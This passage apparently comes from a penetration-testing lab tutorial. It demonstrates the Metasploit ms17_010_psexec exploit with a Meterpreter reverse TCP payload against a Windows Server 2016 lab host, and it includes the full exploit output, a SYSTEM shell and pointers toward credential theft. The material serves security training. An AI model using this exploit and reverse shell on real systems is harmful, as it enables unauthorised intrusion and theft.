 ```powershell
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

This time, we kept it simple and just used a windows/meterpreter/reverse_tcp payload.
You can change this as you wish for a different shell type or obfuscate your attack more, as shown in the previous payloads sections.
With our options set, let's give this a try and see if we land a shell.

4. Execute Attack and Receive A Callback
Execute Our Attack

msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter >
Success! We have landed our exploit and gained a shell session.
A SYSTEM level shell at that. As seen in the earlier MSF modules, now that we have an open session through Meterpreter, we are presented with the meterpreter > prompt.
From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.
If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

5. Identify the native shell
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

```cmd
C:\Windows\system32>
```
When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.
Can you determine what we are in from the prompt? Just seeing C:\Windows\system32> can clue us in that we are just in a cmd.exe shell.
To make sure, simply running the command help from within the shell will also let you know. If we were dropped into PowerShell, our prompt would look like PS C:\Windows\system32>.
The PS in front lets us know it is a PowerShell session. Congrats on dropping into a shell on our latest exploited Windows host.
